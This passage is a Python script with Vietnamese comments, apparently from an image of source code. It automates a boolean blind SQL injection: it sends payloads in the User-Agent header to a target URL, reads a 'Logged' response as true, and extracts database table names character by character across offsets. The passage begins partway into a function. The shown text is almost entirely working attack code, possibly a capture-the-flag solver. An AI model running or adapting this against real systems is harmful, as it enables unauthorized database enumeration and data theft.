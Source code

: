 ```python
    
    headers = {
        'User-Agent': payload
    }
    
    try:
        # Gửi yêu cầu POST lên server
        response = requests.post(TARGET_URL, headers=headers, timeout=5)
        if "Logged" in response.text:
            return True
            
    except requests.exceptions.RequestException:
        # Nếu có lỗi request (ví dụ: server trả về lỗi 500, timeout),
        return False
        
    # Trường hợp khác cũng coi như là sai
    return False

def find_table_name_by_offset(table_offset):
    """
    Hàm này tìm tên đầy đủ của một bảng tại một offset cụ thể.
    Ví dụ: offset=0 tìm bảng đầu tiên, offset=1 tìm bảng thứ hai.
    """
    print(f"\nĐang tìm kiếm tên bảng tại offset {table_offset}...")
    
    found_table_name = ""
    # Lặp qua từng vị trí ký tự trong tên bảng (từ 1 đến độ dài tối đa)
    for i in range(1, MAX_TABLE_NAME_LENGTH + 1):
        found_char_for_this_index = False
        
        # Lặp qua tất cả các ký tự có thể có để đoán
        for char in CHARSET:
            print(f"Đang thử: Offset={table_offset}, Vị trí={i}, Ký tự='{char}'", end="\r")
            
            # Kiểm tra xem ký tự này có đúng không
            if check_character(char, table_offset, i):
                # Nếu đúng, cộng ký tự vào kết quả và dừng vòng lặp đoán
                found_table_name += char
                found_char_for_this_index = True
                print(f"Tìm thấy ký tự: '{char}'. Tên bảng hiện tại: '{found_table_name}'")
                break # Thoát khỏi vòng lặp đoán (for char in CHARSET)
        
        # Nếu đã lặp qua hết bộ ký tự mà không tìm thấy ký tự nào cho vị trí này,
        # có nghĩa là tên bảng đã kết thúc.
        if not found_char_for_this_index:
            print(f"\nKhông tìm thấy thêm ký tự nào tại vị trí {i}")
            break # Thoát khỏi vòng lặp tìm ký tự (for i in range(...))
            
    return found_table_name

def main():
    print("===== Bắt đầu khai thác =====")
    
    all_found_tables = []
    
    # Chúng ta sẽ thử tìm tối đa 10 bảng
    for offset in range(10):
        table_name = find_table_name_by_offset(offset)
        
        if table_name:
            # Nếu tìm thấy tên bảng, thêm vào danh sách và tiếp tục tìm bảng tiếp theo
            print(f"\nTìm thấy tên bảng tại offset {offset}: {table_name}\n" + "="*50)
            all_found_tables.append(table_name)
```